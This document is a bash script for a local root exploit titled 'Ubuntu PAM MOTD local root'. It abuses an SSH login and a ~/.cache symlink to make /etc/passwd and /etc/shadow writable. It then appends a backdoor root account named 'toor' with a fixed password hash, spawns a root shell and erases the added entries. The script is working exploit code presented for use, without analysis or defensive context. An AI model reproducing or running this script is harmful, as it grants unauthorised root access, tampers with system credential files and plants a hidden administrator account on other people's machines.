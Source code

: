 ```bash
#!/bin/bash

P='toor:x:0:0:root:/root:/bin/bash'
S='toor:$6$tPuRrLW7$m0BvNoYS9FEF9/Lzv6PQospujOKt0giv.7JNGrCbWC1XdhmlbnTWLKyzHz.VZwCcEcYQU5q2DLX.cI7NQtsNz1:14798:0:99999:7:::'
echo "[*] Ubuntu PAM MOTD local root"
[ -z "$(which ssh)" ] && echo "[-] ssh is a requirement" && exit 1
[ -z "$(which ssh-keygen)" ] && echo "[-] ssh-keygen is a requirement" && exit 1
[ -z "$(ps -u root |grep sshd)" ] && echo "[-] a running sshd is a requirement" && exit 1
backup() {
    [ -e "$1" ] && [ -e "$1".bak ] && rm -rf "$1".bak
    [ -e "$1" ] || return 0
    mv "$1"{,.bak} || return 1
    echo "[*] Backuped $1"
}
restore() {
    [ -e "$1" ] && rm -rf "$1"
    [ -e "$1".bak ] || return 0
    mv "$1"{.bak,} || return 1
    echo "[*] Restored $1"
}
key_create() {
    backup ~/.ssh/authorized_keys
    ssh-keygen -q -t rsa -N '' -C 'pam' -f "$KEY" || return 1
    [ ! -d ~/.ssh ] && { mkdir ~/.ssh || return 1; }
    mv "$KEY.pub" ~/.ssh/authorized_keys || return 1
    echo "[*] SSH key set up"
}
key_remove() {
    rm -f "$KEY"
    restore ~/.ssh/authorized_keys
    echo "[*] SSH key removed"
}
own() {
    [ -e ~/.cache ] && rm -rf ~/.cache
    ln -s "$1" ~/.cache || return 1
    echo "[*] spawn ssh"
    ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
    [ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
    echo "[+] owned: $1"
}
bye() {
    key_remove
    exit 1
}
KEY="$(mktemp -u)"
key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
own /etc/passwd && echo "$P" >> /etc/passwd
own /etc/shadow && echo "$S" >> /etc/shadow
restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
key_remove
echo "[+] Success! Use password toor to get root"
su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
  chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor
```
